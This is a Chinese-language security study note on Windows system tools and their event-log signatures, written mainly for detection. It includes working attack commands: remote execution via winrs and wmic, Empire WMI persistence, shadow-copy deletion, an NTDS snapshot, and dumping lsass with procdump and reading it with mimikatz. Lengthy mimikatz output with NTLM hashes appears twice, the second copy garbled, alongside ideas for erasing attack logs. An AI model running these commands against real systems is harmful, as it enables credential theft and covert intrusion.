




# windows常见系统工具

# 1.WINRM-WINRS-WINRSHOST
日志判断特征：
```
attack:
winrs -r http://target_ip:5985 -u:user -p:password cmd
OR
event_id = 5156「Windows筛选平台已允许连接」允许连接时，将生成此事件。
可认为是Windows系统自身防火墙的日志。其中层运行时ID「Layer Run-timeID」，48表示向外访问，44是向内访问。这里的winrs是向外连接，日志中记录为48。
应用程序名称为\\device\\harddiskvolume2\\windows\\system32\\winrs.exe
目标端口为5985或5986
```
```
target:
event_id = 4688「创建了进程」；
C:\\Windows\System32\winrshost.exe => cmd.exe /C whoami
```
## 1.1 WINRM---远程管理服务


Windows远程管理（WinRM）是Windows Server 2003 R2, Windows Vista和Windows Server 2008中一种新式的方便远程管理的服务。


_WinRM是远程管理应用的“服务器”组成部分，并且WinRS（Windows远程Shell）是WinRM的“客户端”，它在远程管理WinRM服务器的计算机上运行。  然而，我们应该注意到两个计算机必须手动安装WinRS，还要使WinRM能够启动并从远程系统传回信息。_


使用http及SOAP协议完成工作；很容易完成http请求，也很容易被攻击者利用来做远程管理！


_WinRM基于Web服务管理（WS-Management）标准。 这么说的意思是：WinRM使用HTTP[协议](http://cisco.chinaitlab.com/List_11.html)（80端口）并且用SOAP来请求它工作。 这样的好处在于HTTP请求能够非常容易的穿过[防火墙](http://security.chinaitlab.com/List_1291.html)进行收发。 因而它的好坏在于：它使通过Internet管理远程Windows PC更为容易，或者它更容易适合Internet上存心不良的远程Windows攻击者。 WinRM使用HTTP的其它好处在于：如果HTTP入站通讯被允许，就没有其它端口必需在服务器和客户端上被开放。_


**使用WMI数据库执行指令；使用80 端口，甚至可和IIS共同使用80端口。**


_WinRM将使用WMI数据库执行你或者你的系统管理包的任务，就像使用VBScript一样使用另一个编程接口的相似任务。与我在前面提及时相同，WinRM的好处是它使用80端口（HTTP）。并且有些特殊的代码甚至允许WinRM与IIS共享80入站端口，它们可能正共同运行在80端口上。_


**可为其添加验证来做安全防范。**


_WinRM支持多种验证方式，以阻止正连接上的任何人进行任何关于你PC客户端和服务器的管理任务。不过，如同被开放的其他任何端口一样，如果验证和加密被放置在了合适的时机，你就已经采取了全部合理的[安全](http://security.chinaitlab.com/)防范。_


判断是否🔛


winrm enumerate winrm/config/listener


## 1.2 WinRS


	WinRS是Windows远程Shell。


	使用WinRS你可以查询远程运行WinRM的Windows主机。不过请记住，你的主机也需要运行WinRM来使用WinRS。
winrs是一个非常有特色、能够提供丰富帮助信息的全命令行工具。


_WinRM和WinRS是Windows系统管理员应该了解的非常强有力的新工具。  我想使用WinRM/WinRS进行远程管理非常有潜力！ 你可以安装程序、更改设置或者Troubleshooting（只要它连在网络上）。 你甚至能更进一步去扩展它并且把WinRS与脚本组合起来在计算机列表中执行那些任务。 并且请记住，无论你是否使用这些个工具，你的系统管理软件在不久的将来全用到它们。_


winrs ver


## 1.3 winrshost---WinRM的远程Shell插件主机进程


该文件是Microsoft®Windows®操作系统的一部分。Winrshost.exe由Microsoft Corporation开发。这是一个系统和隐藏文件。Winrshost.exe通常位于％SYSTEM％文件夹中，其通常大小为20,480字节。
该**winrshost.exe**过程是安全的，禁用它可以是危险的，因为在您的计算机程序需要它才能正常工作。

🧗‍♀️winrs去连接的时候，在被连接服务器上会调用到winrshost程序。
winrshost.exe ---> cmd.exe --->whoami


# 2.wmic


WMIC扩展[WMI](https://baike.baidu.com/item/WMI)（Windows Management Instrumentation，Windows管理工具） ，提供了从命令行接口和批命令[脚本](https://baike.baidu.com/item/%E8%84%9A%E6%9C%AC/399)执行系统管理的支持。
连接某节点并执行命令
wmic /node：“ip” /user：user /password：password process call create “powershell.exe ipconfig >c:\1.txt”
在受害主机上，可以看到日志：

```
event_id = 4688 AND 创建者进程名：C:\Windows\System32\wbem\WmicPrvSE.exe AND 进程命令行：cmd.exe /c whoami > 3.txt
```

[https://www.freebuf.com/articles/system/182531.html

[](https://www.freebuf.com/articles/system/182531.html)

## 横向移动-WMI

WMI object -- class Win32_Process及其方法Create。Create方法允许用户在本地或远程创建一个进程。需要注意的是，当在远程系统上使用Create方法时，该方法是在一个名为 "Wmiprvse.exe "的主机进程下运行的。

进程WmiprvSE.exe是spawn Create方法的CommandLine参数中定义的进程。因此，远程创建的新进程将以Wmiprvse.exe为父进程。WmiprvSE.exe是一个DCOM服务器，它是在DCOM服务主机svchost.exe下面产生的，参数如下C:\WINDOWS\system32/svchost.exe -k DcomLaunch -p。从登录会话的角度来看，在目标机上，WmiprvSE.exe是由DCOM服务主机在不同的登录会话中生成的。然而，无论WmiprvSE.exe执行的是什么，都会发生在从网络认证的用户创建的新的网络类型（3）登录会话上。

攻击模拟：
(Empire: XXX) > usemodule persistence/elevated/wmi*
(Empire: powershell/persistence/elevated/wmi) > execute
(Empire: XXX) > shell whoami

检测思路：
wmiprvse.exe产生（Spawn）新进程，这些进程是非系统账户会话的一部分。
非系统账户利用WMI通过netwotk执行代码的情况。


event_id = 4688 ，父进程wmiprvse.exe，子进程有cmd，powershell等。

event_id = 4648，进程名称：c:\windows\syswow64\wbem\wmic.exe，网络地址不为-

event_id = 4688 ，父进程%wmiprvse.exe，登陆ID !=0x3e7 


对登陆ID的解释：

系统帐户登录会话的logon ID始终为0x3e7（十进制999），网络服务会话的logon ID始终为0x3e4（996），本地服务的logon ID为0x3e5（997），大多数其他Logon ID是随机生成的。

https://blog.51cto.com/jimshu/1331474

# 3.vssadmin

显示当前卷影副本备份和所有已安装的卷影副本编写器和提供程序。 选择下表中的命令名称，查看其命令语法。
```
vssadmin list shadows 列出现有的卷影副本。
vssadmin delete shadows 删除卷影副本。

vssadmin create shadow /for=C：创建C盘的卷影。
vssadmin delete shadows /shadow={id} /quite

```
VSSVC.exe

管理并执行用于备份和其它用途的卷影复制。如果此服务被终止，备份将没有卷影复制，并且备份会失败。如果此服务被禁用，任何依赖它的服务将无法启动。



# 4.Winlogbeat


Winlogbeat是Windows事件日志的轻量级数据发送器。 虽然Elastic群集通常用于实时监视，但是可以对Winlogbeat进行调整，以手动将“冷日志”或旧的非活动Windows事件日志（EVTX）手动发送给Elastic Stack。 该功能使分析人员可以从收集的系统图像中提取EVTX文件，并利用Elastic堆栈的功能进行调查。


使用Winlogbeat将Windows事件日志流传输到Elasticsearch。Winlogbeat 通过标准的 windows API 获取 windows 系统日志，常见的有 Application，Security 、System三个核心日志文件。


https://cloud.tencent.com/developer/article/1539163·


# 5.schtasks
允许管理员创建、删除、查询、更改、运行和中止本地或远程系统上的计划系统。替代 AT.exe。


schtasks.exe是安排命令和程序定期运行或在指定时间内运行。从计划表中添加和删除任务，按需要启动和停止任务，显示和更改计划任务。
schtasks命令，用途广泛，使用高效，不仅能为本地计算机添加任务计划，而且还能通过某台计算机的操作，运行另外一台计算机的程序。可定时、定日、定月、定周、定年等让本机或局域网电脑启动软件。


event_id = 4689 「进程已退出（每当进程退出时，都会生成此事件。）」

taskhostw.exe
taskhostw 全程：Host Pro[ce](http://www.xitongtiandi.net/zhuanti/47087.html)ss for Windows Tasks，正常的文件所在路径为C:Windows\System32 ，如发现taskhost.exe不该目录下绝大部分是病毒或木马。

# 6.mshta.exe
mshta.exe是[微软](https://baike.baidu.com/item/%E5%BE%AE%E8%BD%AF/124767)[Windows操作系统](https://baike.baidu.com/item/Windows%E6%93%8D%E4%BD%9C%E7%B3%BB%E7%BB%9F/852149)相关程序，英文全称Microsoft HTML Application，可翻译为微软[超文本标记语言](https://baike.baidu.com/item/%E8%B6%85%E6%96%87%E6%9C%AC%E6%A0%87%E8%AE%B0%E8%AF%AD%E8%A8%80/6972570)应用，用于执行.[HTA](https://baike.baidu.com/item/HTA/262732)文件。


# 7.spoolsv.exe
spoolsv.exe 是Print Spooler的进程，管理所有本地和网络打印队列及控制所有打印工作。如果此服务被停用，本地计算机上的打印将不可用。该进程属 Windows [系统服务](https://baike.baidu.com/item/%E7%B3%BB%E7%BB%9F%E6%9C%8D%E5%8A%A1/11027121)。
ms17010 445端口，网络文件共享 SMB服务？
so 该漏洞利用的时候，借用spoolsv.exe 去调用系统的其他服务，其权限为？


# 8.regsvr32.exe

C:\Windows\SysWOW64\Regsvr32命令用于注册[COM组件](https://baike.baidu.com/item/COM%E7%BB%84%E4%BB%B6/3351509)，是[Windows](https://baike.baidu.com/item/Windows/165458)系统提供的用来向系统注册控件或者卸载控件的命令，以命令行方式运行。WinXP及以上系统的regsvr32.exe在windows\system32文件夹下；2000系统的regsvr32.exe在winnt\system32文件夹下。


# 9.wce
Windows凭据编辑器（WCE）是一种安全工具，它允许列出Windows登录会话以及添加，更改，列出和删除关联的凭据（例如：LM / NT哈希，Kerberos票证和明文密码）。
需要下载安装，该工具允许用户：

```
在Windows上执行传递哈希
从内存中“窃取” NTLM凭据（有或没有代码注入）
Windows计算机上的“隐藏” Kerberos票证
在其他Windows或Unix计算机上使用“被盗”的kerberos票证来访问系统和服务
转储Windows身份验证程序包存储的明文密码
```
注意1：运行WCE需要以下特权：

- 您需要本地管理员特权才能运行WCE，并且能够从内存中窃取NTLM凭据。这是开发后（Exploit post 后）的工具。
- 您还需要本地管理员特权才能执行“哈希传递”（更改当前的NTLM凭据，或使用指定的NTLM凭据在新的Windows登录会话中启动新程序）。
- 注意2：wce.exe 会提示有毒，要测试的朋友们需要加入白名单。

[https://www.fujieace.com/penetration-test/windows-credentials-editor.html](https://www.fujieace.com/penetration-test/windows-credentials-editor.html)


# 10 lsass
进程文件： lsass 或者[lsass.exe](https://baike.baidu.com/item/lsass.exe)
进程名称： Local Security Authority Service，lsass.exe是一个系统重要进程，用于微软Windows系统的安全机制。它用于**本地安全和登陆策略****，该进程中存储着当前登录的明文密码。**如果结束该进程，会出现不可知的错误。

注意：lsass.exe也有可能是Windang.worm、irc.ratsou.b、Webus.B、MyDoom.L、Randex.AR、Nimos.worm等病毒创建的，病毒通过软盘、群发邮件和P2P文件共享进行传播。

**NTLMSSP (NT LAN Manager Security Support Provider)，是微软提供的安全支持接口协议，常用于SMB共享。NtLmSsp（NT LM安全性支持提供者服务）的进程名是**lsass.exe**，WinXP Home/PRO默认安装的启动类型是手动，它不依赖于其他服务。
NT LM的意思即NT LanManger，是NT下提供的认证方法之一，使用了64位的加密手段。NtLmSsp这个服务主要针对RPC（远程过程调用），通常RPC可以选择基于两种通信方式，一种是传输协议，比如TCP/IP、UDP、IPX等，另一种为命名管道（Pipeline）。通常情况下Windows默认选择都是传输协议，而由于RPC是采用非加密传输的，通信数据安全无法得到保证，而NtLmSsp就可向这一类RPC提供安全服务。WinXP中已知的这类RPC应用就是Telnet服务（Telnet也依赖于NtLmSsp），因此无需Telnet服务的单机用户可将NtLmSsp其关闭。
检索发现，较多ntlmssp相关的帖子都是描述说「有很多的审核失败的4625日志告警」，并且，对于其做一些安全策略的话（如下图），是可能导致服务器无法远程登陆的。

# 11 msiexec.exe
msiexec.exe，系统进程，是Windows Installer的一部分。用于安装**Windows Installer安装包（MSI）**，对系统的正常运行是非常重要的，一般在运行Microsoft Update安装更新或安装部分软件的时候出现，占用内存比较大。


# 12 Ntdsutil

Ntdsutil.exe 是一个为 Active Directory 提供管理设施的命令行工具。

可使用 Ntdsutil.exe 执行 Active Directory 的数据库维护，管理和控制单个主机操作，创建应用程序目录分区，以及删除由未使用 Active Directory 安装向导 (DCPromo.exe) 成功降级的域控制器留下的元数据。

ntdsutil.exe snapshot “active instance ntds” create q q

# 13 wuauclt 

wuauclt.exe- wuauclt -进程管理信息进程文件： wuauclt or wuauclt.exe

Wuauclt.exe是Windows自动升级管理程序。该进程会不断在线检测更新。删除该进程将使计算机无法得到最新更新信息。

wuauclt.exe wsus windows server update service 

# 14 wininit.exe

**定义**：wininit.exe是Windows NT 6.x系统的一个核心进程。

wininit.exe的工作是开启一些主要的Vista-Win7、Win8后台服务，比如中央[服务管理器](https://baike.baidu.com/item/服务管理器/7371663)Service Central Manager ([SCM](https://baike.baidu.com/item/SCM/2039966))，本地安全验证子系统Local Security Authority Subsystem ([LSASS](https://baike.baidu.com/item/LSASS/6510438)) 和本地会话管理器Local Session Manager ([LSM.EXE](https://baike.baidu.com/item/LSM.EXE/3372303)).

**位置**：wininit.exe位于 C:\Windows\System32\ wininit.exe，对用户不可见，完全运行在系统背景中，并且可以记录的计算机的输入和执行其它程序。

**wininit.exe的错误样例**："Wininit.exe Cannot Be Run from Within Windows."如果你的系统被病毒感染，你将收到这一段信息。 Viruses Win32.Weird 和Bymer是已知的wininit.exe相关的病毒。

ime input method editor

# 15 procdump 

ProcDump 是一个命令行的实用工具，其主要目的是**监测应用程序**如何**使 CPU 达到峰值（spike）以及生成崩溃转储（crash dumps）**，管理员或开发人员可以利用这个工具确定造成 CPU 达到峰值的原因。

dmp文件：dmp是系统错误产生的文件

原理： lsass.exe 进程 (它用于本地安全和登陆策略) 中存储的明文登录密码。

示例：

*读取操作实验

1.使用systeminternal的工具procdump，或者手工找到进程lsass.exe，右键转存。

```
procdump64.exe -accepteula -ma lsass.exe lsass.dmp
```

2.使用mimikatz读取dmp文件内容

```
sekurlsa::minidump lsass.dmp
sekurlsa::logonPasswords full
或
mimikatz.exe "sekurlsa::minidump lsass.dmp" "sekurlsa::logonPasswords full" exit
```

这里使用win10测试，发现password那里显示是null，但是拿ntlm解密是可以接到的（弱密码）

```
  .#####.   mimikatz 2.2.0 (x64) #19041 Sep 18 2020 19:18:29
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)

 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )

 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz

 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz(commandline) # sekurlsa::minidump lsass-1.dmp
Switch to MINIDUMP : 'lsass-1.dmp'

mimikatz(commandline) # sekurlsa::logonPasswords full
Opening : 'lsass-1.dmp' file for minidump...

Authentication Id : 0 ; 229404 (00000000:0003801c)
Session           : Interactive from 1
User Name         : Test
Domain            : DESKTOP-G3FNP4K
Logon Server      : DESKTOP-G3FNP4K
Logon Time        : 2021/2/10 14:43:46
SID               : S-1-5-21-651588814-643419694-3333898981-1000
        msv :
         [00000003] Primary
         * Username : Test
         * Domain   : DESKTOP-G3FNP4K
         * NTLM     : c5a237b7e9d8e708d8436b6148a25fa1
         * SHA1     : 39cfdb69532cff3336f08a83aac42524f41cd6e9
         [00010000] CredentialKeys
         * NTLM     : c5a237b7e9d8e708d8436b6148a25fa1
         * SHA1     : 39cfdb69532cff3336f08a83aac42524f41cd6e9
        tspkg :
        wdigest :
         * Username : Test
         * Domain   : DESKTOP-G3FNP4K
         * Password : (null)
        kerberos :
         * Username : Test
         * Domain   : DESKTOP-G3FNP4K
         * Password : (null)
        ssp :
        credman :

Authentication Id : 0 ; 229360 (00000000:00037ff0)
Session           : Interactive from 1
User Name         : Test
Domain            : DESKTOP-G3FNP4K
Logon Server      : DESKTOP-G3FNP4K
Logon Time        : 2021/2/10 14:43:46
SID               : S-1-5-21-651588814-643419694-3333898981-1000
        msv :
         [00010000] CredentialKeys
         * NTLM     : c5a237b7e9d8e708d8436b6148a25fa1
         * SHA1     : 39cfdb69532cff3336f08a83aac42524f41cd6e9
         [00000003] Primary
         * Username : Test
         * Domain   : DESKTOP-G3FNP4K
         * NTLM     : c5a237b7e9d8e708d8436b6148a25fa1
         * SHA1     : 39cfdb69532cff3336f08a83aac42524f41cd6e9
        tspkg :
        wdigest :
         * Username : Test
         * Domain   : DESKTOP-G3FNP4K
         * Password : (null)
        kerberos :
         * Username : Test
         * Domain   : DESKTOP-G3FNP4K
         * Password : (null)
        ssp :
        credman :

Authentication Id : 0 ; 997 (00000000:000003e5)
Session           : Service from 0
User Name         : LOCAL SERVICE
Domain            : NT AUTHORITY
Logon Server      : (null)
Logon Time        : 2021/2/10 14:42:49
SID               : S-1-5-19
        msv :
        tspkg :
        wdigest :
         * Username : (null)
         * Domain   : (null)
         * Password : (null)
        kerberos :
         * Username : (null)
         * Domain   : (null)
         * Password : (null)
        ssp :
        credman :

Authentication Id : 0 ; 64907 (00000000:0000fd8b)
Session           : Interactive from 1
User Name         : DWM-1
Domain            : Window Manager
Logon Server      : (null)
Logon Time        : 2021/2/10 14:42:49
SID               : S-1-5-90-0-1
        msv :
        tspkg :
        wdigest :
         * Username : DESKTOP-G3FNP4K$
         * Domain   : WORKGROUP
         * Password : (null)
        kerberos :
        ssp :
        credman :

Authentication Id : 0 ; 64849 (00000000:0000fd51)
Session           : Interactive from 1
User Name         : DWM-1
Domain            : Window Manager
Logon Server      : (null)
Logon Time        : 2021/2/10 14:42:49
SID               : S-1-5-90-0-1
        msv :
        tspkg :
        wdigest :
         * Username : DESKTOP-G3FNP4K$
         * Domain   : WORKGROUP
         * Password : (null)
        kerberos :
        ssp :
        credman :

Authentication Id : 0 ; 996 (00000000:000003e4)
Session           : Service from 0
User Name         : DESKTOP-G3FNP4K$
Domain            : WORKGROUP
Logon Server      : (null)
Logon Time        : 2021/2/10 14:42:49
SID               : S-1-5-20
        msv :
        tspkg :
        wdigest :
         * Username : DESKTOP-G3FNP4K$
         * Domain   : WORKGROUP
         * Password : (null)
        kerberos :
         * Username : desktop-g3fnp4k$
         * Domain   : WORKGROUP
         * Password : (null)
        ssp :
        credman :

Authentication Id : 0 ; 38615 (00000000:000096d7)
Session           : UndefinedLogonType from 0
User Name         : (null)
Domain            : (null)
Logon Server      : (null)
Logon Time        : 2021/2/10 14:42:48
SID               :
        msv :
        tspkg :
        wdigest :
        kerberos :
        ssp :
        credman :

Authentication Id : 0 ; 999 (00000000:000003e7)
Session           : UndefinedLogonType from 0
User Name         : DESKTOP-G3FNP4K$
Domain            : WORKGROUP
Logon Server      : (null)
Logon Time        : 2021/2/10 14:42:48
SID               : S-1-5-18
        msv :
        tspkg :
        wdigest :
         * Username : DESKTOP-G3FNP4K$
         * Domain   : WORKGROUP
         * Password : (null)
        kerberos :
         * Username : desktop-g3fnp4k$
         * Domain   : WORKGROUP
         * Password : (null)
        ssp :
        credman :

mimikatz(commandline) # exit
Bye!

  .#####.   mimikatz 2.2.0 (x64) #19041 Sep 18 2020 19:18:29
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)

 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )

 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz

 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz(commandline) # sekurlsa::minidump lsass-1.dmp
Switch to MINIDUMP : 'lsass-1.dmp'

mimikatz(commandline) # sekurlsa::logonPasswords full
Opening : 'lsass-1.dmp' file for minidump...

Authentication Id : 0 ; 229404 (00000000:0003801c)
Session           : Interactive from 1
User Name         : Test
Domain            : DESKTOP-G3FNP4K
Logon Server      : DESKTOP-G3FNP4K
Logon Time        : 2021/2/10 14:43:46
SID               : S-1-5-21-651588814-643419694-3333898981-1000
        msv :
         [00000003] Primary
         * Username : Test
         * Domain   : DESKTOP-G3FNP4K
         * NTLM     : c5a237b7e9d8e708d8436b6148a25fa1
         * SHA1     : 39cfdb69532cff3336f08a83aac42524f41cd6e9
         [00010000] CredentialKeys
         * NTLM     : c5a237b7e9d8e708d8436b6148a25fa1
         * SHA1     : 39cfdb69532cff3336f08a83aac42524f41cd6e9
        tspkg :
        wdigest :
         * Username : Test
         * Domain   : DESKTOP-G3FNP4K
         * Password : (null)
        kerberos :
         * Username : Test
         * Domain   : DESKTOP-G3FNP4K
         * Password : (null)
        ssp :
        credman :

Authentication Id : 0 ; 229360 (00000000:00037ff0)
Session           : Interactive from 1
User Name         : Test
Domain            : DESKTOP-G3FNP4K
Logon Server      : DESKTOP-G3FNP4K
Logon Time        : 2021/2/10 14:43:46
SID               : S-1-5-21-651588814-643419694-3333898981-1000
        msv :
         [00010000] CredentialKeys
         * NTLM     : c5a237b7e9d8e708d8436b6148a25fa1
         * SHA1     : 39cfdb69532cff3336f08a83aac42524f41cd6e9
         [00000003] Primary
         * Username : Test
         * Domain   : DESKTOP-G3FNP4K
         * NTLM     : c5a237b7e9d8e708d8436b6148a25fa1
         * SHA1     : 39cfdb69532cff3336f08a83aac42524f41cd6e9
        tspkg :
        wdigest :
         * Username : Test
         * Domain   : DESKTOP-G3FNP4K
         * Password : (null)
        kerberos :
         * Username : Test
         * Domain   : DESKTOP-G3FNP4K
         * Password : (null)
        ssp :
        credman :

Authentication Id : 0 ; 997 (00000000:000003e5)
Session           : Service from 0
User Name         : LOCAL SERVICE
Domain            : NT AUTHORITY
Logon Server      : (null)
Logon Time        : 2021/2/10 14:42:49
SID               : S-1-5-19
        msv :
        tspkg :
        wdigest :
         * Username : (null)
         * Domain   : (null)
         * Password : (null)
        kerberos :
         * Username : (null)
         * Domain   : (null)
         * Password : (null)
        ssp :
        credman :

Authentication Id : 0 ; 64907 (00000000:0000fd8b)
Session           : Interactive from 1
User Name         : DWM-1
Domain            : Window Manager
Logon Server      : (null)
Logon Time        : 2021/2/10 14:42:49
SID               : S-1-5-90-0-1
        msv :
        tspkg :
        wdigest :
         * Username : DESKTOP-G3FNP4K$
         * Domain   : WORKGROUP
         * Password : (null)
        kerberos :
        ssp :
        credman :

Authentication Id : 0 ; 64849 (00000000:0000fd51)
Session           : Interactive from 1
User Name         : DWM-1
Domain            : Window Manager
Logon Server      : (null)
Logon Time        : 2021/2/10 14:42:49
SID               : S-1-5-90-0-1
        msv :
        tspkg :
        wdigest :
         * Username : DESKTOP-G3FNP4K$
         * Domain   : WORKGROUP
         * Password : (null)
        kerberos :
        ssp :
        credman :

Authentication Id : 0 ; 996 (00000000:000003e4)
Session           : Service from 0
User Name         : DESKTOP-G3FNP4K$
Domain            : WORKGROUP
Logon Server      : (null)
Logon Time        : 2021/2/10 14:42:49
SID               : S-1-5-20
        msv :
        tspkg :
        wdigest :
         * Username : DESKTOP-G3FNP4K$
         * Domain   : WORKGROUP
         * Password : (null)
        kerberos :
         * Username : desktop-g3fnp4k$
         * Domain   : WORKGROUP
         * Password : (null)
        ssp :
        credman :

Authentication Id : 0 ; 38615 (00000000:000096d7)
Session           : UndefinedLogonType from 0
User Name         : (null)
Domain            : (null)
Logon Server      : (null)
Logon Time        : 2021/2/10 14:42:48
SID               :
        msv :
        tspkg :
        wdigest :
        kerberos :
        ssp :
        credman :

Authentication Id : 0 ; 999 (00000000:000003e7)
Session           : UndefinedLogonType from 0
User Name         : DESKTOP-G3FNP4K$
Domain            : WORKGROUP
Logon Server      : (null)
Logon Time        : 2021/2/10 14:42:48
SID               : S-1-5-18
        msv :
        tspkg :
        wdigest :

   * Username : DESKTOP-G3FNP4K$
     ain   : WORKGROUP
        * Password : (null)
          ros :
             * Username : desktop-g3fnp4k$
               ain   : WORKGROUP
                  * Password : (null)
                    ​        credman :
mimikatz(commandline) # exit
Bye!
```






# 16 TGT  Ticket Granting Ticket 票证授权票证

**Kerberos是一种网络身份验证协议。****它旨在通过使用秘密密钥加密为客户端/服务器应用程序提供强身份验证。**

#### %% 奇思妙想，和同事讨论，隐藏攻击行为的方法：

1.覆盖日志（行为覆盖，属性中可看到覆盖的设置）；但我认为该行为操作难度过大。。

2.删除某条日志；不可行

3.使用其他日志文件覆盖日志，无法停止服务，然后文件名无法重命名 为一样的，拖进去也无法覆盖，失败。

# WAITING PROGRAMS ......

conhost.exe
ntlmssp


cut -d ' ' -f 1,12 filename |grep 'error.html' | cut -d ' ' -f 1 |sort |uniq -c |sort -nr|head -n 10

18454 ---登陆成功。
event_id ='18453' or event_id ='18454' or event_id ='18456' 

spn信息收集 set-span？4769？/？？？

auditpol /get 

修改审核策略

